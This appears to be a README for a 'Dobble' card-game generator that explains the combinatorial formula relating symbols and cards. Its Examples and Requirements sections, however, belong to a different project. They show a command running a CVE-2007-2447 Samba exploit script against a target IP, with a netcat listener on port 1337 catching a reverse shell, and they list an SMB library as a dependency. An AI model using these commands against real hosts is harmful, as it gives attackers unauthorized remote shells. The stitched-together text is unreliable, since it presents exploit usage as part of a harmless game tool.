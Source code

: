 ## Dobble Generator
This tool is a dobble generator. Many mathematical properties are used.
To use it, simply enter the number of total images, put your images in the "images" folder and launch the main.py

## Table of contents
* [mathematical](#maths)
* [Exemples](#Examples)
* [Requirements](#requirements)

## mathematical
The mathematical property of the generator is :

```
(n * n+1) / 2 = number of total symbols on all the cards
(number of symbols per card * number of cards) / 2 = number of total symbols on all the cards
```

In this formula (which is not that of the official dobble) the number of cards is always greater than the number of symbols per card of "+1"
For example if the total number of symbols is 15 then:

```
15 * 2 = 30 and 5 * 6 = 30
5 is the number of symbols per card and 6 is the number of cards
```

or if the number of cards is 4, the number of symbols per card is "number of cards" - 1 therefore 3, then:

```
(3 * 4) / 2 = 6 ; there are therefore 6 symbols in total on all the cards
```



## Examples

```
py CVE-2007-2447.py 192.168.1.38 1337 192.168.1.14
```
and on my netcat :

```
netcat -lnvp 1337
```
Result :

netcat :

![alt text](https://image.noelshack.com/fichiers/2020/17/3/1587561245-capture.png)

and on the script:

![alt text](https://image.noelshack.com/fichiers/2020/17/3/1587561439-capture.png)

## Requirements
- mysmb
- platform
- sys
- os



